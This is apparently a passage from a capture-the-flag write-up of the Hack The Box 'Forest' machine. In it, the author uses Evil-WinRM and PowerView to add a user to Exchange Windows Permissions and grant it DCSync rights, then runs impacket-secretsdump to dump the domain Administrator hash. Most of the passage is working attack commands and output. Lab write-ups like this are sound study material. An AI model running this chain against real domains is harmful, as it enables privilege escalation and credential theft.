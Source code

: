 
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net group | findstr "*Exchange Windows Permissions"
*Exchange Servers
*Exchange Trusted Subsystem
*Exchange Windows Permissions
*ExchangeLegacyInterop

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net group "Exchange Windows Permissions" rxffsec /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net user rxffsec | findstr "Exchange Windows Permissions"
Global Group memberships     *Exchange Windows Perm*Domain Users
```

I import powerview to the machine

```
$ cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> upload PowerView.ps1 
Info: Uploading /home/linux/Desktop/forest/content/PowerView.ps1 to C:\Users\svc-alfresco\Desktop\bh\PowerView.ps1

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> . .\PowerView.ps1
```

Then following the guide that bloodhound shows I'll abuse the write dacl permission

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> $SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> $Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\rxffsec', $SecPassword)

```

the last part gives a bit of a problem to solve it is just define the dc as "DC=htb,DC=local" and the parameter PrincipalIdentity user to define the user that will receive this privilege

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity rxffsec -Right
s DCSync
```

after doing this now I can retrieve the hashes of other users such as administrator

```
$ impacket-secretsdump htb.local/rxffsec:password123@10.10.10.161
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
